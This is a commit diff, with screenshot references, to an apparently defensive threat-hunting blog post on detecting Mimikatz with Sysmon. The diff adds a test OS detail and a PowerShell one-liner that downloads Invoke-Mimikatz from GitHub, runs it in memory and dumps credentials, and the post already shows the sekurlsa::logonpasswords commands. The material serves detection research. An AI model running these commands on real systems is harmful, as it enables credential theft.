

Before and after one commit to darkquasar/darkquasar.github.io, a Jekyll site: the page built from _posts/2017-09-09-THL01-Mimikatz.md, in a window 1280 px wide and 900 px high, scrolled down 1089 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2017-09-09-THL01-Mimikatz.md

````diff
--- a/_posts/2017-09-09-THL01-Mimikatz.md
+++ b/_posts/2017-09-09-THL01-Mimikatz.md
@@ -25,6 +25,7 @@
 | **Detection Ratio** | 80%                                                                |
 | **PoC Tools**       |  Mimikatz / Inject-LogonCredentials / Invoke-ReflectivePEInjection |
 | **Hunting Method**  |  Grouping                                                          |
+| **Test OS**         |  Win10 (OS Build 14393.321)                                        |
 
 
 # Mimikatz as a standalone executable
@@ -32,6 +33,12 @@
 ```
 privilege::debug
 sekurlsa::logonpasswords
+```
+
+For in-memory Mimikatz we will also test it by direct download via powershell rather than downloading the script to disk:
+```
+IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia
+/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
 ```
 
 ## Hunting with Sysmon Events Only
@@ -184,3 +191,6 @@
 constitute great candidates for an alert.
 
 In the next article, we shall continue to explore other artifacts left behind by Mimikatz's execution in memory as well as what type of events are generated by tools like [Invoke-CredentialInjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-CredentialInjection.ps1). Later, we will run Mimikatz in the context of its several Kerberos-fooling techniques to see if we can detect spoofed Tickets and other treachery ;).
+
+## Updates
+- 13/09/2017 | added details about test OS & powershell expression used for in-memory execution
````
